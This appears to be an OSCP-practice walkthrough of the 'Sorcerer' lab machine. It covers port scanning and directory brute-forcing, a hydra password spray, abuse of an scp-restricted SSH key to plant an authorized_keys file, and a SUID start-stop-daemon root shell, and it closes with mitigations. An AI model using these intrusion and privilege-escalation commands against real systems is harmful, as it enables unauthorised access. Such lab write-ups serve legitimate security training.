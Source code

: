 ```yaml
---
title: Sorcerer
date: 2025-06-11
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough, Linux, ssh-restricted-commands, scp, $SSH_ORIGINAL_COMMAND, SUID-start-stop-daemon-privesc] 
image: sorcerer.jpg
media_subpath: /assets/img/posts/2025-06-11-sorcerer/
---
```

## Introduction
On this intermediate-level PG practice Linux machine, I discovered a **zip file containing an SSH private key** exposed in a web-accessible directory. The key was **restricted to `scp` usage only**, preventing direct SSH access. To bypass this, I generated my own **RSA key pair**, uploaded the public key to the target’s `~/.ssh/authorized_keys`, and used my private key to gain shell access. Privilege escalation was achieved via a misconfigured SUID binary (`start-stop-daemon`), which I exploited to execute commands as `root`.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

![image.png](image%202.png)


## Services

### Port 22 (SSH)

Version - OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)

We usually skip SSH.

### Port 111 (Rpcbind)

```bash
rpcclient -U "%" $IP
```

Error was NT_STATUS_CONNECTION_REFUSED

### Port 2049 (NFS)

```bash
showmount -e $IP
```

Export list for 192.168.184.100:

## Web

### Port 80

![image.png](image%203.png)

Gobuster

```bash
gobuster dir -u http://$IP/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 42 -b 400,403,404
```

![image.png](image%204.png)

### Port 7742

![image.png](image%205.png)

![image.png](image%206.png)

![image.png](image%207.png)

That means despite provided credentials on-click it will run that function, which just alerts to the window a string `Invalid Logon`.

And no request sent to server at all, check is performed client-side.

```bash
feroxbuster -u http://$IP:7742/ -w /usr/share/wordlists/dirb/common.txt -C 403,404
```

![image.png](image%208.png)

Different one is max:

![image.png](image%209.png)

### Port 8080

Gobuster return just `manager` but access is denied.

## Exploitation

I found private key of the max, I tried connecting, but it returns the following:

![image.png](image%2010.png)

this means, that max is only allowed to run `scp` command on the target, and this private key file is supposed to be used for that.

![image.png](image%2011.png)

I found in `tomcat-users.xml.bak` file a password:

![image.png](image%2012.png)

```bash
hydra -L users -p VTUD2XxJjf5LPmu6  $IP ssh
```

I tried password-spraying it with users but hydra returns the target does not support `PasswordAuthentication`.

![image.png](image%2013.png)

After a bit of searching on how to use this I found that we can provide private key to `scp` command:

![image.png](image%2014.png)

I generated a new RSA key pair:

```bash
ssh-keygen -t rsa
```

I tried running this command to put public key file on the remote machine:

```bash
scp -i .ssh/id_rsa key.pub max@$IP:/home/max/.ssh/authorized_keys
```

But it kept returning me the error:

![image.png](image%2015.png)

After a bit of searching I found out this error is related to sftp and we should fallback to legacy `scp` protocol itself you can read more about it [here](https://superuser.com/questions/1733852/copy-file-using-scp-fails-debug1-exit-status-1)

```bash
scp -O -i .ssh/id_rsa key.pub max@$IP:/home/max/.ssh/authorized_keys
```

After transferring `key.pub` file I connected to the machine using private-key.

![image.png](image%2016.png)

![image.png](image%2017.png)

I used password identified before to get a shell as dennis user but that didn’t work.

## Privilege Escalation

I searched for SUID binaries and found `start-stop-daemon` binary has SUID bit set.

[GTFOBins-SUID-start-stop-daemon](https://gtfobins.github.io/gtfobins/start-stop-daemon/#suid)

```bash
/usr/sbin/start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
```

![image.png](image%2018.png)

## Credentials

```bash
<role rolename="manager-gui"/>
<user username="tomcat" password="VTUD2XxJjf5LPmu6" roles="manager-gui"/> #found in tomcat-users.xml.bak
  
```
## Mitigation
- Never expose sensitive files like SSH keys in web-accessible locations.
- Restrict `scp` or `ssh` usage via `ForceCommand`, and monitor key usage.
- Regularly audit the system for SUID binaries and remove the bit from binaries like `start-stop-daemon` unless explicitly needed.
- Implement file integrity monitoring and strong access controls on `.ssh` directories.
